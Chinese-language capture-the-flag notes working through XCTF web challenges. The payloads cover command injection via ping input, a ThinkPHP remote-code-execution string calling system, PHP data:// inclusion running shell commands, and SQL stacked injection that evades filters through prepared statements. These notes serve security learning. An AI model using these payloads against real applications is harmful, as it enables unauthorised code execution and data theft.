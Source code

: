 #攻防世界：新手：web（续）
Xff_referer
Xff-客户端-http请求端真实ip
Http referer -header的一部分-浏览器向web服务器发送请求（从哪里而来）

WebShell
Web php 管理面板 蚁剑登录 查看网站目录

Command_execution
对命令没有过滤
waf：Web应用防护系统
推测应该是在 ping的过程中 夹杂了其他的命令 导致 文件泄漏。 也就是命令执行漏洞。
命令截断
127.0.0.1;find / -name flag.txt 
然后127.0.0.1; cat /home/flag.txt

Simple js
无论输入什么，dechiffre函数都会返回pass
十六进制转字符串
document.write(String.fromCharCode())

***
***高手进阶区：***

Baby web
index一般为页面默认页（自动跳转）
火狐-f12-网络-index.php-响应头-flag


training-www-robots
url后加robots.txt 发现fl0g.php
url路径 访问fl0g php

Php_rce
rce(远程代码执行漏洞)
payload：查找flag
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "flag"
查看flag：cat /flag

Web php include
使用data://伪协议
data://text/plain,xxx(数据)
data://text/plain;base64,xxxx(base64编码后的数据)
?page=data://text/plain,<?php system("ls")?>
?page=data://text/plain,<?php system("cat fl4gisisish3r3.php")?>(执行完后flag在控制台源码中)
/ post php伪协议大小写绕过


Supersqli：堆叠注入、MySQL预编译
1' and '1'='1发现正常输出
1' and '1'='2发现没有输出，
联合注入，输入1' union select 1 
堆叠注入
1';show databases;#
1';show tables;#
1';show columns from words;#
1';show columns from `1919810931114514`;#
预编译：
1';prepare pre from concat('s', 'elect * from `1919810931114514`');execute pre;#

ics-06
burp进行id爆破 送分题


